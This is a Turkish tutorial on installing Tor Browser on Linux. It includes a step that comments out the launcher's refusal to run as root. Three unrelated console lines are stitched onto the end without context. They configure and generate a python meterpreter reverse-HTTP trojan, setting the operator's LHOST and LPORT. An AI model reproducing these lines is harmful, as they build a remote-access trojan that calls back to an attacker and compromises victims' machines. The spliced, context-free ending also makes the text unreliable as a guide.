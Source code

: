 ## Tor Browser Yüklemek
Kurulum için VPN'i aktif etmemiz kurulum adına faydalı olacaktır (bir çok ülkede yasaklı olmasından dolayı). <br>
Öncelikle `apt-get install tor` komutu ile Tor Browser için gerekli olan paketleri yükleyelim.
```
# apt-get install tor
```
- [Tor Browser indirme sayfası](https://www.torproject.org/download/)'na giderek işletim sistemimize uygun olan kurulum paketini indirebiliriz. 
- `cd` komutu sayesinde kurulum paketini indirdiğimiz dizine gidebiliriz. Ardından `tar -xvf` komutu ile indirdiğimiz arşiv dosyasını dizine çıkartabiliriz. 
- Çıkarttığımız dizine giderek `./start-tor-browser.desktop` komutu ile tor browser'ı çalıştırabiliriz.
```
# cd Downloads
# tar -xvf tor-browser
# ./start-tor-browser.desktop
```
- `root` kullanıcısı ile oturum açtıysak bize hata verecektir (root kullanıcısı ile tor browser açılamaz vb.).
- Tor Browser dosyalarını çıkarttığımız dizin içerisinde `Browser` adındaki dizine gidelim.

![Browser Dizin](./assets/4-tor-conf.png)

- `nano start-tor-browser` komutu ile tor browser SHELL Script konfigürasyon dosyasını açalım<br>
if [ "id -u" -eq 0 ]; then <br>
        complain "The Tor Browser Bundle should not be run as root.  Exiting." <br>
        exit 1 <br>
fi
- satırLARINI bulup her satır başına `#` koyalım ve yorum satırı haline getirelim ve dosyayı **kaydedip çıkalım**. 
- tekrar `./start-tor-browser.desktop` komutu ile Tor Browser'ı çalıştırabiliriz. Her adımı doğru uyguladıysak başarılı bir şekilde tarayıcımız açılacaktır.
```
# cd Browser/
# nano start-tor-browser
# ./start-tor-browser
```
- Eğer yine hata alırsak veya browser açılması takılırsa, açılış ekranından **Configure** seçeneğini seçerek **Bridge (Köprü)** üzerinden bağlanmayı deneyebiliriz. Fakat unutmamalıyız ki **ilk başta açılış biraz uzun sürmektedir**.


[python/meterpreter/rev_http>>]: set LHOST 192.168.1.87 # LHOST değişkenini set ediyoruz, kendi IP adresimiz
[python/meterpreter/rev_http>>]: set LPORT 8080
[python/meterpreter/rev_http>>]: generate # Trojan'ı oluşturuyoruz, bize çıktı olarak nereye oluşturduğunu verecektir